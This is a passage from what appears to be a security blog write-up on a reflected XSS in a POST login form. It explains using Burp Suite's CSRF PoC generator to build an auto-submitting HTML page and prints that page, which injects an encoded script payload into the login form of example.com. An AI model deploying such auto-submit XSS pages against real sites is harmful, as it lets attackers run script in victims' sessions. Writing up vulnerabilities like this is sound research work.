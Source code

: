    Don't get confused, this vulnerability is not a CSRF. They simply coincide in the first step, which involves generating an HTML/JavaScript code that sends a specific request to a domain. In this case, what I wanted to achieve is to obtain an HTML/JavaScript code that can be hosted on a malicious website, and when a user accesses it, it automatically sends the request with the XSS to the vulnerable domain. This Burp option was designed to exploit CSRFs but can also be used for PoCs like the one I am showing in this post, and in general for any vulnerability that involves generating HTML/JavaScript code that sends a request.
   
3. I selected *Options -> Include auto-submit script* and then *Regenerate -> Test in browser*

   ![](/assets/images/2023-11-05-reflected-xss-through-post-request-in-login-form/csrf-poc-generator.png)
   
   So in this example the malicious HTML/JavaScript code is
   
   <div class="code-header">
      <button class="copy-code-button">
        Copy
      </button>
    </div>
   ```html
   <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body>
       <form action="https://example.com/login" method="POST">
         <input type="hidden" name="username" value="&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
         <input type="hidden" name="password" value="securepassword123" />
         <input type="submit" value="Submit request" />
       </form>
       <script>
         history.pushState('', '', '/');
         document.forms[0].submit();
       </script>
     </body>
   </html>
   ```